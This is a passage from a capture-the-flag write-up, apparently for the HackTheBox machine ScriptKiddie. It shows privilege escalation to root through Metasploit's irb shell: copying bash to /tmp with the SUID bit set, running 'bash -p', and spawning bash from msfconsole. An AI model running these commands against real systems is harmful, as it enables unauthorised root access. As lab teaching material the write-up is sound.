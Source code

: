 

    msf6 > irb
    [*] Starting IRB shell...
    [*] You are in the "framework" object

    irb: warn: can't alias jobs from irb_jobs.
    >> 



From there, I can run `system` to run arbitrary commands. One way is to
copy `bash` and set it SUID:



    >> system("cp /bin/bash /tmp/0xdf; chmod 4777 /tmp/0xdf")
    => true



Now that will give a root shell:



    kid@scriptkiddie:~$ /tmp/0xdf -p
    0xdf-5.0# id
    uid=1000(kid) gid=1000(kid) euid=0(root) groups=1000(kid)



Even simpler, I could run `system("bash")` from `irb`:



    >> system("bash")
    root@scriptkiddie:/home/pwn#



Simpler yet, I can run terminal commands from the MSF prompt:



    msf6 > bash                                                                    
    [*] exec: bash

    root@scriptkiddie:/home/pwn#



Regardless of the method, I can now grab `root.txt`:



    0xdf-5.0# cat /root/root.txt
    b2b48d52************************



## Beyond Root

### InCron

There are also two `incron` tasks running as pwn, stored in
`/var/spool/incron/pwn`:
